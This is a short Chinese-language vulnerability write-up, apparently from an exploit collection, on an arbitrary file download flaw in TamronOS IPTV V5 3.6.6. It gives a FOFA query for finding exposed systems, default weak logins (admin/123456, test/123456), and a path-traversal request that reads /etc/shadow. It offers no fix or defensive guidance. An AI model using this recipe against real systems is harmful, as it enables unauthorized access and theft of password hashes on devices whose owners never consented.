





## TamronOS IPTV系统后台任意文件下载

## 漏洞描述

TamronOS IPTV系统存在任意文件下载

## 漏洞影响

> TamronOS IPTV V5 3.6.6

## FOFA

> title="TamronOS IPTV系统"

## POC

1）登录界面

 

2）该系统默认弱口令admin/123456,登录后的界面如下也可以试试test/123456



4）存在下载的地方，下载抓包



 

修改参数，读取文件成功POC如下 

```
GET /download/backup?name=./../../../../../etc/shadow
```



